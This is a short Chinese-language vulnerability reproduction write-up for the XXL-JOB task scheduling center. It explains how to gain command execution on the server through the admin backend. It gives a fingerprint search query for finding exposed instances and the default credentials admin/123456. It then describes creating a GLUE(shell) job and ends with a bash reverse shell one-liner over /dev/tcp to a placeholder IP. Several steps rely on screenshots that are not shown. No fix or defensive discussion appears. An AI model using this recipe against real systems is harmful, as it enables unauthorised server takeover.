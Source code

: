 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

```
XXL-JOB
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心"
```

## 漏洞复现

登录后台增加一个任务

- 默认口令 admin/123456

![](images/202202101914314.png)

- 注意运行模式需要为 GLUE(shell)

![](images/202202101915543.png)

点击 GLUE IDE编辑脚本



![](images/202202101915236.png)



![](images/202202101915343.png)



执行探测出网，和任务调用是否可执行



反弹一个shell



```plain
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```



![](images/202202101915912.png)